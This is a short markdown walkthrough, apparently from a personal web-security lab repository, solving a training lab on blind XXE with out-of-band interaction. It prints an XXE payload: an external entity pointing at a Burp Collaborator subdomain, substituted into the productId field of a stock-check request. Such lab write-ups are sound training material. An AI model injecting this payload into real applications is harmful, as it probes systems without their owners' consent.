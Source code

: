 # Lab: Blind XXE with out-of-band interaction

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/703fdae9-7829-4696-a58b-1c1e775bdc29)

## Solution

The application has stock check page.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/e9706344-025a-408f-a35f-204beacf9642)

The application checks for the stock level of a product by submitting XML to the server:

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/ca61e6c1-ff53-41ef-8234-8df75fd89972)

Go to burp collaborator and click on **copy to clipboard**.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/77153dc5-755b-4a4b-ab0c-7bd3aab05529)

Insert the following external entity definition in between the XML declaration and the `stockCheck` element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

`<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>`
Replace the productId number with a reference to the external entity: `&xxe;`

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/c1a67486-e60f-4d0d-bf0d-df3362fbe845)

o to the Collaborator tab, some DNS and HTTP interactions that were initiated by the application as the result of our payload wil be visible.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/6aca349c-832d-4284-ad13-bfcfaaad0ee0)

Making the application do the interactions solved the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/012349cb-ad55-418d-b094-9609e5e78d6e)
